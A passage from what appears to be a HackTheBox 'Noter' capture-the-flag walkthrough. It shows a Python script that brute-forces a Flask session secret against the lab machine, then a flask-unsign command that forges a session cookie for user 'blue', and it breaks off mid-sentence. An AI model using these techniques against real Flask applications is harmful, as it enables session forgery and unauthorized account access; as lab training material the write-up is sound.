 ```python
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36',
}


with open(wordlist_file, 'r') as in_file:
	wordlist = in_file.read().splitlines()


with app.test_client() as client:

	for word in tqdm(wordlist):

		r = client.get('/?word={}'.format(word))
		
		session_cookie = r.data.decode('utf-8')

		cookies = {
		    'session': session_cookie,
		}

		response = requests.get('http://10.10.11.160:5000/dashboard', cookies=cookies, headers=headers, verify=False, allow_redirects=False)
		if response.status_code == 200:
		    print('Found word: {}.'.format(word))
		    break
```

<p align="center">
  <img src="/images/walkthroughs/hackthebox/noter/6_0_user.png" width="90%"/>
</p>


Let's create a cookie with user "blue":

```bash
kali@kali:~/Desktop/HackTheBox/Noter$ flask-unsign --sign --cookie "{'logged_in': True, 'username': 'blue'}" --secret 'secret123'

eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYmx1ZSJ9.YtxCZg.WBKydRQS3DvXXJDRX8zjKNX46tE
```

Using the cookie shows the following notes (I was right and they has lower ids:

<p align="center">